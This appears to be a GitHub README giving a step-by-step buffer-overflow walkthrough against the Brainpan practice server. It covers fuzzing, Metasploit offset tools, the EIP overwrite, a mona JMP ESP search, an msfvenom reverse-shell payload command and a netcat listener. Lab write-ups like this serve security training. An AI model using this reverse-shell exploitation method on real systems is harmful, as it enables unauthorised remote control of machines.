 <h1>Brainpan BOF server </h1>
<br><h2>steps</h2></br>
<br><h3>1. spiking</n>
<br>2.fuzzing</n>
<br>3. finding the offset
<br>4. overwriting the EIP
<br>5. finding bad characters
<br>6. finding the right modules
<br>7. Generating Shellcode</h3></br></br></br></br></br></br></br>

<h2> 1. Spiking </h2> 

First make sure youe firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed :D )`


<h2>2 .fuzzing</h2>

*Now time to find Number of size buffer which crash server 
(user chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
*Now create pattern , why ? to find exact number of Buffer size
*First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 *Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
*get EIP value ? now use it at offset
		
		<h2>3. finding the offset</h2>
*find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
* boom ?? we get Exact Number of size which is 524

		<h2>4. overwriting the EIP</h2>
*Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
* YES --> ok great

		<h2>5. finding bad characters</h2>
* Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
* ./brainpanBadChard.py IP PORT
* remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

	<h2>6. finding the right modules</h2>
* Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place

* use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
*now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
*fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

*control EIP done

			<h2>7. Generating Shellcode</h2>
*now generarte shellcode 

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
*make sure your nc is ready
 nc -lvnp 443

*and now fire your final code 
./finalexploit.py IP PORT

*boom you will get shell 
*if not then sorry please recheck all step clearly 
*thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
</b>
